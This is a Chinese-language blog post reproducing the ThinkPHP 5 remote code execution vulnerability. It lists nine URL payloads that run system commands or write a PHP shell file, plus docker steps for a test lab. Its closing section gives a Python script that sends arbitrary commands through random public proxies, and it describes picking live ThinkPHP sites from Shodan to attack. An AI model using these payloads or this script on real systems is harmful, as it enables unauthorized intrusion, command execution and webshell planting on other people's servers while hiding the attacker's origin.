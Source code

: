 ```yaml
---
title: Thinkphp-getshell复现
tags: 渗透测试
---
```

# thinkphp5任意命令执行漏洞复现
## 一、漏洞详情
由于框架对控制器名没有进行足够的检测，会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。
<!--more-->
参考链接：https://blog.thinkphp.cn/869075
## 二、测试payload
其实我一直等一个大佬分析漏洞原理，但是没有看到圈子里有人发表相关文章，只好自己来告诉大家这个漏洞的消息。但是由于本人实在是技术小白，所以写不出来漏洞原理，只能发一波payload了
```
1、index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
2、index.php?s=index/\think\Request/input&filter=phpinfo&data=1
3、index.php?s=index/\think\Request/input&filter=system&data=id
4、index.php?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
5、index.php?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E
6、index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
7、index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
8、index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
9、index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
## 三、复现
- 有了payload，剩下的就是搭建复现环境了。这里给大家说一下我的习惯：直接用docker pull，有的表哥可能喜欢自己搭一遍，这样能够学到更多的东西，但是我为了图方便，一般都是直接用docker实现了
- 安装docker应该大家都会，如果有人不是很了解docker的话，我这里讲一个非常简单的方法：在centos7里先yum -y updat确保自己的最新的，然后重启，执行yum -y install docker*，这样很简单的就把docker装上了
- 然后：
```
docker pull docker.io/clarencep/tp5-dev
docker run -d --name thinkphp5 -p 8000:8000 docker.io/clarencep/tp5-dev
```
- 然后就可以访问http://ip:8000来看一下是否成功  
![测试环境](https://images-cdn.shimo.im/anrkeZR5YHosWG5t__thumbnail)  
- 确认成功跑起来之后选一个payload来访问就可以了  
![测试payload](https://images-cdn.shimo.im/WD0eNDELsyscHQN2__thumbnail)  
## 四、愉快玩耍
- 有了payload，就可以写一个简单的脚本来玩了
```
#coding=utf-8
import requests,sys,random
proxy_list=[
    '223.203.0.14:8000',
    '183.166.129.53:8080',
    '103.205.26.84:41805',
    '61.135.155.82:443',
    '218.17.139.5:808'
]
def poc(site,command):
    url=site+'/index.php?s=Index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]='+command
    headers={'User-Agent':'Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0'}
    proxies={
        'http':'http://'+random.choice(proxy_list),
        'https':'https://'+random.choice(proxy_list)
        }
    req=requests.get(url,headers=headers,proxies=proxies)
    print(req.text)
    print('-----------------------------------------')
try:
    site=sys.argv[1]
    command=sys.argv[2]
except:
    site=raw_input('Please input your site:')
    print('-----------------------------------------')
    while True:
        command=raw_input('Command:')
        poc(site,command)
poc(site,command)
```
- 我在脚本里写了几个随便在网上找的代理IP，大家也可以写自己的  
- 去shodan上看一眼：
![shodan](https://images-cdn.shimo.im/rHUy523VPVYwhuOt__thumbnail)  
- 哇，好多thinkphp5的网站，随便挑一个    
![上手](https://images-cdn.shimo.im/nncjpXyHhSYvKVTY__thumbnail)  
- 我早上看的时候还好好地，现在已经被人传进去这么多马了，还有asp的，真的娘的是个人才